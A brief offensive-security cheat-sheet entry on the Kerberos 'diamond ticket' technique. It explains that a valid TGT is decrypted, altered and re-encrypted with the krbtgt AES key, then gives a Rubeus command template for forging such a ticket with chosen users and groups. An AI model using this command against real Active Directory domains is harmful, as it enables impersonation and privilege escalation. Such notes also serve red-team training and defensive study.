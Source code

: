 # Diamond Ticket

A diamond ticket is created by decrypting a valid TGT, making changes to it and re-encrypt it using the AES keys of the krbtgt account which makes it less detectable.

## Modify The Ticket

{% code overflow="wrap" %}
```powershell
Rubeus.exe diamond
/domain:DOMAIN /user:USER /password:PASSWORD /dc:DOMAIN_CONTROLLER /enctype:AES256 /krbkey:HASH /ticketuser:USERNAME /ticketuserid:USER_ID /groups:GROUP_IDS
```
{% endcode %}
